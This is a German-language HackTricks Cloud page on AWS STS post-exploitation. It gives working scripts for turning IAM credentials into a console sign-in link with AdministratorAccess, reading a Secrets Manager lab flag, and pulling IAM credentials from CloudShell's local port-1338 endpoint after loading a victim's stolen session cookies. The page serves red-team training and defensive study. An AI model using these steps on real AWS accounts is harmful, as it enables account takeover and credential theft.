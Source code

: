 # AWS - STS Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## STS

Für weitere Informationen:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Neue Methode Dezember 2024: Umgehung der Anforderung für den Webkonsole-Link, durch HTTPS-POST-Anfrage direkt an die SecretsManager-API, um Geheimnisse zu erhalten (kein Anmeldelink oder Webkonsole)

Gestern eingereicht, als PR für die bevorstehende Prüfung (ARTE: ex16x41), jedoch sehe ich, dass der PR nicht angezeigt wird, vielleicht falsch eingereicht, versuchen wir es erneut:
Mit dieser Methode umgehen Sie vollständig die Anforderung, URLs zu öffnen, Anmeldelinks zu formatieren oder sogar die CLI / Webkonsole zu verwenden.
Was haben wir hier also gemacht?
Ich habe dieses Skript geschrieben, das direkt mit der AWS Secrets Manager API interagiert, es ist absolut einfach und unkompliziert.
Wenn Sie das Skript ausführen, sendet es eine HTTPS-POST-Anfrage an den AWS Secrets Manager-Endpunkt
https://secretsmanager.<region>.amazonaws.com/
Die GetSecretValue-Anfrage wird als Teil der POST-Anfrage gesendet, authentifiziert mit SigV4-Signierung (verwaltet von boto3).
Secrets Manager verarbeitet die Anfrage:
AWS validiert die Anfrage gegen die IAM-Richtlinien, die an Ihren Benutzer oder Ihre Rolle angehängt sind (wie wir wissen, können wir den geheimen Wert nur über die Webkonsole anzeigen)
Wenn erlaubt, gibt der Secrets Manager-Dienst den angeforderten geheimen Wert in der Antwort zurück.
**POC-Demo:**
Der CLI-AWS-Befehl zum Abrufen des geheimen Wertes funktioniert nicht, da der Zugriff verweigert wird ->
In dem Bild können Sie jedoch die Einfachheit der Methode sehen, um das Flag direkt zu extrahieren, indem Sie die geheime ID kennen (dies haben wir in einer früheren Phase ermittelt, als wir mit dem Benutzerprofil angemeldet waren)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Hinweis: Ich denke, diese Methode kann universell verwendet werden, je nach Szenario, wenn die Richtlinie dies erlaubt (aber die Einschränkungen der Richtlinie umgehen, die dies nicht über die CLI erlaubt)
Dies kann also jederzeit verwendet werden, wenn eine Richtlinie dies erlaubt (als alternative Testoption)
Nebenbemerkung: neugierig auf andere Techniken, die Sie mit derselben Methode der direkten Interaktion mit der API des Dienstes und jetzt AWS CLI anwenden können, für jeden Prozess der Privilegieneskalation oder Post-Exploitation wie hier.
**Code:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Setzen Sie einen benutzerdefinierten User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Abrufen des geheimen Wertes direkt über die secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Von IAM-Credentials zur Konsole

Wenn Sie es geschafft haben, einige IAM-Credentials zu erhalten, könnten Sie daran interessiert sein, **auf die Webkonsole zuzugreifen** mit den folgenden Tools.\
Beachten Sie, dass der Benutzer/die Rolle die Berechtigung **`sts:GetFederationToken`** haben muss.

#### Benutzerdefiniertes Skript

Das folgende Skript verwendet das Standardprofil und einen Standard-AWS-Standort (nicht gov und nicht cn), um Ihnen eine signierte URL zu geben, die Sie verwenden können, um sich in der Webkonsole anzumelden:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Sie können **einen Webkonsole-Link generieren** mit [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Stellen Sie sicher, dass der IAM-Benutzer die Berechtigung `sts:GetFederationToken` hat oder eine Rolle zum Übernehmen bereitstellt.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) ist ein Tool, um AWS-Anmeldeinformationen sicher zu speichern und in einer Entwicklungsumgebung darauf zuzugreifen.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Sie können auch **aws-vault** verwenden, um eine **Browser-Konsole-Sitzung** zu erhalten.
{% endhint %}

#### Von der Konsole zu IAM-Credentials

[**Ursprünglich in diesem Beitrag entdeckt**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Wenn es Ihnen gelingt, Zugriff auf eine Webkonsole zu kompromittieren (vielleicht haben Sie Cookies gestohlen und konnten nicht auf den .aws-Ordner zugreifen), können Sie einige IAM-Token-Credentials für diesen Benutzer über **CloudShell** erhalten.

CloudShell gibt IAM-Credentials über einen **undokumentierten Endpunkt auf Port 1338** preis. Nachdem Sie die Sitzungscookies des Opfers in Ihren Browser geladen haben, können Sie zu CloudShell navigieren und die folgenden Befehle ausführen, um IAM-Credentials zu erhalten.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
